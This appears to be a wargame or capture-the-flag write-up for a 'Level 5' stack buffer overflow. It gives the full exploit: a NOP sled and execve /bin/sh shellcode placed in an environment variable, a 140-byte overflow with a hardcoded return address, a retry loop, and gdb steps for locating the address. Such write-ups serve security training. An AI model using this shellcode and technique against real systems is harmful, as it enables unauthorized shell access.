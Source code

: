 # Level 5

Basic buffer overflow w/ executable stack.
`/tmp/maxb/maxbtestinglevelz5/`

Guessing buffer stack address was a PITA, so set environment variable to giant NOP sled + shellcode and then used return address somewhere in the environment variable section

Length of buffer from pwntools cyclic:

Final payload
```
$ 
$ export NOP_AND_SHELLCODE=$(python -c "print '\x90' * 130000")$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
$ while true; do /levels/level05 $level5_input; done
$ export level5_input=$(python -c "print 'A' * 140")$(python -c "print '\x10\x0b\xfe\xbf'"); while true; do /levels/level05 $level5_input ; done
```
Where `0xbffe0b10` is found by:
```
$ gdb /tmp/maxbtestinglevelz5/level05-copy
$ break main
$ run
$ x/s *((char **)environ)
```

